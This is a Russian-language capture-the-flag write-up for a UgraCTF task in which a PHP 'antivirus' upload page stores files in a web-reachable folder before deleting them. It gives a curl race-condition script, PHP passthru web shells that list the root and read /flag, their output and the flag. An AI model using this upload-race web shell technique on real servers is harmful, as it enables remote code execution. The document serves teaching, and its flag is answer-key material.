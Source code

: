 # Антивирус возвращается: Write-up

В этом таске приложен код на PHP, запускающийся на сервере.

Первое, что привлекает внимание — функция `check_malware`, запускающая какие-то проверки через шелл, передавая имя файла напрямую, но из-за использования `escapeshellarg` уязвимости command injection здесь нет. Алгоритм проверки, конечно, не очень убеждает в пользе антивируса, но что поделать.

Следующее, что привлекает внимание — код заливки файла:

```php
$file_path = "uploads/" . $file_name;
if (!move_uploaded_file($_FILES["malware"]["tmp_name"], $file_path)) {
```

`$file_path` содержит относительный путь, то есть путь относительно скрипта. Такой вызов `move_uploaded_file` приведет к копированию файла в такую папку, что он будет доступен по адресу `https://collateral.q.2023.ugractf.ru/<token>/uploads/<original_file_name>`. Это уже небезопасно — если мы зальем некоторый скрипт на PHP и сделаем запрос на такой путь, сервер, возможно, исполнит залитый скрипт.

Некоторая проблема возникает из-за того, что залитый файл удаляется после проверки:

```php
unlink($file_path);
```

Поэтому сделать запрос на залитый шелл надо успеть во время проверки. К счастью, проверка из-за использования `sleep` занимает как минимум одну секунду, так что устроить такой race condition легко. Это можно попробовать сделать руками, либо, например, написать для этого скрипт на bash, используя curl:

```bash
URL="https://collateral.q.2023.ugractf.ru/<token>"
curl -s "$URL" -F "malware=@exploit.php" >/dev/null & sleep 0.5
curl -s "$URL/uploads/exploit.php"
```

Для проверки эксплоита можно в качестве `exploit.php` залить, например, следующий код:

```php
<?php passthru("ls -la /");
```

```
total 52
drwxr-xr-x    1 root     root           180 Dec 18 09:54 .
drwxr-xr-x    1 root     root           180 Dec 18 09:54 ..
drwxr-xr-x    2 root     root          4096 Nov 11 18:03 bin
drwxr-xr-x    1 root     root           320 Dec 18 09:54 dev
drwxr-xr-x    1 root     root            60 Dec 18 09:54 docker-entrypoint.d
-rwxrwxr-x    1 root     root          1616 Nov 12 06:27 docker-entrypoint.sh
drwxr-xr-x    1 root     root            60 Nov 14 21:29 etc
-rw-r--r--    1 nobody   nobody          60 Dec 18 09:54 flag
drwxr-xr-x    2 root     root          4096 Nov 11 18:03 home
drwxr-xr-x    8 root     root          4096 Nov 14 21:29 lib
drwxr-xr-x    5 root     root          4096 Nov 11 18:03 media
drwxr-xr-x    2 root     root          4096 Nov 11 18:03 mnt
drwxr-xr-x    2 root     root          4096 Nov 11 18:03 opt
dr-xr-xr-x  337 nobody   nobody           0 Dec 18 09:54 proc
drwx------    2 root     root          4096 Nov 11 18:03 root
drwxr-xr-x    1 root     root            60 Dec 18 09:54 run
drwxr-xr-x    2 root     root          4096 Nov 11 18:03 sbin
drwxr-xr-x    2 root     root          4096 Nov 11 18:03 srv
drwxr-xr-x    2 root     root          4096 Nov 11 18:03 sys
drwxrwxrwt    1 root     root            80 Dec 18 10:04 tmp
drwxr-xr-x    7 root     root          4096 Nov 11 18:03 usr
drwxr-xr-x    1 root     root           100 Nov 14 21:29 var
```

...и сразу заметить в корне файл `flag`:

```php
<?php passthru("cat /flag");
```

```
ugra_ever_wondered_who_uses_virustotal_most_huh_dm4t6p023nyc
```

Флаг: **ugra_ever_wondered_who_uses_virustotal_most_huh_dm4t6p023nyc**
